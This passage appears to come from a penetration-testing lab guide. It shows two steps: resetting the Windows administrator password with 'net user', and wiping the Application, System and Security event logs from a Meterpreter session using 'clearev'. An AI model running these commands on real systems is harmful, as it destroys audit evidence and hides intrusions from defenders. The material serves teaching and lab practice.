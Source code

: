 * Change the administrator password and look for the event log.

```sh
shell
net user administrator Password_1234
```

<figure><img src="../../../../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>

### Clearing Windows Event Logs <a href="#clearing-windows-event-logs" id="clearing-windows-event-logs"></a>

❗ _Elevated privileges are necessary to clean the Event logs._

* From the `Meterpreter` session clear the event log

```bash
meterpreter > clearev 
    [*] Wiping 259 records from Application...
    [*] Wiping 504 records from System...
    [*] Wiping 15901 records from Security...
```

